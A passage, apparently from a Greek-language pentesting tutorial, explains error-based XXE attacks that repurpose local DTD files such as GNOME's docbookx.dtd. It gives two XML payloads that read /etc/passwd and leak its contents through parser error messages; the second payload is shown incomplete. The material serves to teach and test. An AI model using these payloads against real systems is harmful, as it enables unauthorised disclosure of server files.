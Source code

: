 
![](<../.gitbook/assets/image (223) (1).png>)

_**Παρακαλώ σημειώστε ότι ο εξωτερικός DTD μας επιτρέπει να συμπεριλάβουμε ένα entity μέσα στο δεύτερο (****`eval`****), αλλά απαγορεύεται στον εσωτερικό DTD. Επομένως, δεν μπορείτε να προκαλέσετε ένα σφάλμα χωρίς να χρησιμοποιήσετε έναν εξωτερικό DTD (συνήθως).**_

### **Βασισμένο σε σφάλματα (σύστημα DTD)**

Τι γίνεται με τις ευπάθειες του XXE όταν **οι αλληλεπιδράσεις εκτός ζώνης είναι αποκλεισμένες** (δεν είναι διαθέσιμες εξωτερικές συνδέσεις);.

Ένα κενό στην προδιαγραφή της γλώσσας XML μπορεί να **αποκαλύψει ευαίσθητα δεδομένα μέσω μηνυμάτων σφάλματος όταν ένα DTD του εγγράφου αναμειγνύει εσωτερικές και εξωτερικές δηλώσεις**. Αυτό το πρόβλημα επιτρέπει την εσωτερική επανορισμό των entities που έχουν δηλωθεί εξωτερικά, διευκολύνοντας την εκτέλεση επιθέσεων XXE βασισμένων σε σφάλματα. Τέτοιες επιθέσεις εκμεταλλεύονται την επανορισμένη καθορισμό ενός XML παραμετρικού entity, που αρχικά έχει δηλωθεί σε έναν εξωτερικό DTD, από έναν εσωτερικό DTD. Όταν οι συνδέσεις εκτός ζώνης αποκλείονται από τον διακομιστή, οι επιτιθέμενοι πρέπει να βασίζονται σε τοπικά αρχεία DTD για να πραγματοποιήσουν την επίθεση, με στόχο την πρόκληση ενός σφάλματος ανάλυσης για την αποκάλυψη ευαίσθητων πληροφοριών.


Ας θεωρήσουμε ένα σενάριο όπου το σύστημα αρχείων του διακομιστή περιέχει ένα αρχείο DTD στη διαδρομή `/usr/local/app/schema.dtd`, που καθορίζει ένα entity με το όνομα `custom_entity`. Ένας επιτιθέμενος μπορεί να προκαλέσει ένα σφάλμα ανάλυσης XML που αποκαλύπτει το περιεχόμενο του αρχείου `/etc/passwd`, υποβάλλοντας ένα υβριδικό DTD ως εξής:
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
Τα παρακάτω βήματα εκτελούνται από αυτό το DTD:

- Ο ορισμός ενός XML παραμετρικού στοιχείου με το όνομα `local_dtd` περιλαμβάνει το εξωτερικό αρχείο DTD που βρίσκεται στο σύστημα αρχείων του διακομιστή.
- Πραγματοποιείται μια επανακαθορισμένη έκδοση για το παραμετρικό στοιχείο XML `custom_entity`, που αρχικά ορίζεται στο εξωτερικό DTD, για να ενθυλακώσει μια εκμετάλλευση [XXE βασισμένη σε σφάλματα](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages). Αυτή η επανακαθορισμένη έκδοση σχεδιάστηκε για να προκαλέσει ένα σφάλμα ανάλυσης, αποκαλύπτοντας το περιεχόμενο του αρχείου `/etc/passwd`.
- Χρησιμοποιώντας το στοιχείο `local_dtd`, εμπλέκεται το εξωτερικό DTD, περιλαμβάνοντας το νεοσυσταθέν `custom_entity`. Αυτή η ακολουθία ενεργειών προκαλεί την εκπομπή του μηνύματος σφάλματος που στοχεύει η εκμετάλλευση.


**Πραγματικό παράδειγμα:** Συστήματα που χρησιμοποιούν το περιβάλλον εργασίας GNOME συχνά έχουν ένα DTD στην τοποθεσία `/usr/share/yelp/dtd/docbookx.dtd` που περιέχει ένα στοιχείο που ονομάζεται `ISOamso`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
```